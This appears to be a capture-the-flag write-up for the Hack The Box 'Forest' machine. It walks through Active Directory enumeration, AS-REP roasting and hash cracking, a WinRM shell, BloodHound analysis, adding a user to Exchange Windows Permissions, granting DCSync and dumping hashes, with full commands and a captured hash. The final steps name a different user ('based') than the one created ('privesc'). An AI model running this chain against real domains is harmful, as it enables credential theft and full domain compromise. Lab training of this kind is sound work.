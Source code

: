 nmap scan

```
sudo nmap -sV -sC 10.10.10.161
PORT     STATE SERVICE      VERSION                                                            
53/tcp   open  domain?                                                                         
| fingerprint-strings:      
|   DNSVersionBindReqTCP:                                                                      
|     version
|_    bind          
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-12-16 14:37:14Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn                    
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?  
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped 
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/16%Time=5FDA1A03%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03"); 
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m49s, deviation: 4h37m10s, median: 6m48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2020-12-16T06:39:40-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-16T14:39:40
|_  start_date: 2020-12-16T14:19:25
```

### Enumerating DNS

```
dig axfr @10.10.10.161

; <<>> DiG 9.16.1-Ubuntu <<>> axfr @10.10.10.161
; (1 server found)
;; global options: +cmd
;; connection timed out; no servers could be reached
```

Anything in the zone transfer

```
nslookup
> SERVER 10.10.10.161
Default server: 10.10.10.161
Address: 10.10.10.161#53
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
> 10.10.10.161
```

And nslookup doesn't give us anything

### Enumerating SMB

```
smbclient -L 10.10.10.161
Enter WORKGROUP\localuser's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```

We can't see anything without password

### Enumerating RPC

```
rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

We have a list of users

### AS-REP Roasting with the list of usernames

```
for user in $(cat user-list.txt);do sudo python3 /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb.local/${user};done
----
----
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:89d34a19169eafd23f16817ca1268425$85573ace3bab499c8d199d317675de453acf5e1435da8c722842237e13e481d21bc3479795a134e335c20da48348542d6959875c853aca2557b9b34fc7dd6e0ac3e3f03f0087e3411866f02b2cf7ba29978cab6fba121bdd3c9a4bd8cccf47ad3e22f8abe228652443c418f942abf8fb217c173a95324fb667bc87090a3e034b4504af4f191cdd472e5f426309c0fa5a2159c56d8dba86882f9c4349196432ad6d70656bd8d92d7203f38479033319710eb79d44137835386479c1a0f978be4e2240b0def8c5865b675f05b03e8d35776bb5b71f1be5fbf42be82694b65b4f54e8d152b65066
---
---
```

We have the hash of the user svc-alfresco, I'll crack it using windows

```
.\hashcat.exe -m 18200 .\hash.txt .\rockyou.txt
```

And the cracked password is: `s3rvice`

### Connecting with evil-winrm as user svc-alfresco and enumerating the system with Bloodhound

Using evil-winrm we can get a shell

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

The next that we are going to do is use Bloodhound to enumerate privesc vectors, first upload sharphound

```
upload SharpHound.exe
```

Next run it with `-c all`

```
.\SharpHound.exe -c all
```

Download the `.zip` and use it on bloodhound

```
download 20201216071619_BloodHound.zip
```

Then I select the user `SVC-ALFRESCO@HTB.LOCAL` and rigth click and mark as owned, then from analysis I select *Shortest Path from Owned Principals*:

![image1](/assets/images/htb-forest/forest1.png)

### Creating a user adding it to the Exchange Windows Permissions group and adding to him DCSync rights

What we are going to do is create a user because we are member of the Account Operators group

```
net user privesc SecurePassword /add /domain
```

Next things we are going to do is add this user to the Exchange Windows Permissions group:

```
net group "Exchange Windows Permissions" /add privesc
```

And we are member:

```
net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
privesc
The command completed successfully.
```

Now we have the permissions to modify DACL on the domain `HTB.LOCAL`, we are going to do what bloodhound says when we click on help:

![image2](/assets/images/htb-forest/forest2.png)

For this we need powerview, let's upload it to the box:

```
upload PowerView.ps1
Import-Module .\PowerView.ps1
```

We add the DCSync rights

```
Add-DomainObjectAcl -PrincipalIdentity based -TargetIdentity "DC=htb,DC=local" -Rights DCSync
```

### Dumping hashes

Now with `secretsdump.py` we can get the administrator hash

```
python3 secretsdump.py 'htb.local/based:SecurePassword@10.10.10.161'
```

Using the administrator hash you can login with evil-winrm
